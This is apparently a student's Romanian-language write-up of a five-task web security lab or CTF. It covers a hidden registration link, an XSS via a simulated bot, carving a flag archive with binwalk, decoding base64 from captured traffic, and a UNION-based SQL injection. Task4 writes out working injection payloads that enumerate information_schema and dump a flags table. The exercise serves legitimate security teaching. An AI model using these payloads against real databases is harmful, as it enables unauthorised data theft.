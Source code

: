 # MARIN MARIUS DANIEL 332CC

### Task1
- ne conectam la dev-machine folosind `./connect.sh` iar apoi vedem ce adresa ip avem
- scanam porturile disponibile si vedem un `port deschis de http` la o adresa ip
- luam adresa ip si portul de http si le dam in scriptul de `./webtunnel.sh` pentru a ne
conecta pe web la `localhost:8080`
- pe site observam ca pagina de register e fake, si cautam cu inspect element in codul
sursa al site ului si vedem ca link ul bun este `/auth/register_real_one`
- ne facem cont, ne conectam si cautam iar cu inspect element in codul sursa al site
ului si gasim flagul

### Task2
- din hint uri si analiza sursei paginii web observam faptul ca putem comunica cu pisica
boss prin nyan cat (avem XSS simulators doar pentru ei)
- daca ne uitam in main.js observam niste functii pe care am putea sa le apelam ca sa
rezolvam acest task
- logica este aceea de a-i trimite lui nyan cat un mesaj care sa contina un script pe care
sa il trimita pentru a fi executat de catre boss (acesta sa apeleze addFriendRequest cu id ul
nostru)

### Task3
- avem la boss in pagina un hint cu scriptul `backup.sh` care trebuie luat de pe pagina
- observam ca scriptul combina 2 arhive intr una singura si ii pune numele cu o data
generata random intr un interval
- odata luata arhiva, se inspecteaza cu un tool pentru a vedea offset ul headerelor cum
ar fi `binwalk`
- se extrage cu tail offsetul arhivei flag, care se dezarhiveaza si astfel avem acces
la fisierul `flag.txt`

### Task4
- se testeaza manual url-urile site ului si se fac incercari de SQL injection pana se 
observa ca vulnerabilitatea este la adresa `http://localhost:8080/inside/p/`
- se incearca aflarea nr de coloane printr un payload care primeste ca arg nr coloanei
pentru a vedea la ce index apare eroarea (ex: ' order by X -- ;)
- se trimit mai multe atacuri pentru a afla informatia pas cu pas:
1 se observa ca se afiseaza informatia la userul 3 si apar duplicate => distinct
`' union select distinct 1, 2, group_concat(distinct(table_schema)), 4, 5, 6, 7, 8
from information_schema.tables -- ;`
  observam web_270

1 `' union select distinct 1, 2, group_concat(table_name), 4, 5, 6, 7, 8 from 
information_schema.tables where table_schema='web_270' -- ;`
  observam flags64173

1 `' union select 1, 2, group_concat(column_name), 4, 5, 6, 7, 8
from information_schema.columns where table_schema='web_270' and table_name='flags64173' -- ;`
  observam zaflag
  
1 `' union select 1, 2, zaflag, 4, 5, 6, 7, 8 from flags64173 -- ;`
  observam flag ul

### Task5
- se scaneaza traficul cu tcpdump si se observa ca anumite pachete contin `NYAN.NYAN..`
- se ia partea dintre NYAN si se decodifica cu `base64`
